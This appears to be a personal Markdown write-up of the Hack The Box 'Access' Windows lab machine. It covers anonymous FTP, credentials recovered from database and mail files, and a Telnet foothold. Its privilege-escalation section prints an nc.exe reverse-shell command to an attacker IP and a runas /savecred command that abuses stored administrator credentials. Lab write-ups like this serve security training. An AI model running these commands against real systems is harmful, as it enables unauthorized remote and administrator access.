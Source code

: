 ```yaml
---
title: "Access Walkthrough(HTB)"
date: 2025-03-20
draft: true
description: "a description"
tags: ["Easy", "Windows", "HTB", "Hacking", "Active Directory", "Walkthrough"]
---
```

## Reconnaissance #Windows 
- We got straight away Webserver on port 80 and Telnet, FTP on the nmap scan.
- ![[Pasted image 20241216220450.png]]
- Apparently anon login allowed in FTP
- Let's try that and the web page mentions LON-MC6 which leads to MS09-042 a vulnerability in Telnet
- Anyway when I try to login in FTP it worked but after that I can't access any directories it's simply giving timeouts
## Enumeration
- There was a e-mail file and database file from the db file there was the password for mail zip file
- Within the mail file a password for Telnet was there
## Foothold
- I got the initial foot in using telnet 
- Then got the user flag
- ![[Pasted image 20241216231714.png]]
## Privilege Escalation
- Using `cmdkey /list` will show the available and stored creds.
- We can use runas for running as something if appropriate constraints are valid
- Here in this case we got saved creds so first lets transfer nc.exe to the machine
- Then use this command to save to bat file
```
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.12 6001 > shell.bat
```
- And execute it with runas command with saved creds
```
runas /user:administrator /savecred c:\users\security\shell.bat
```
- Then we got Administrator access in our nc listener
- We got root access
- ![[Pasted image 20241216233210.png]]
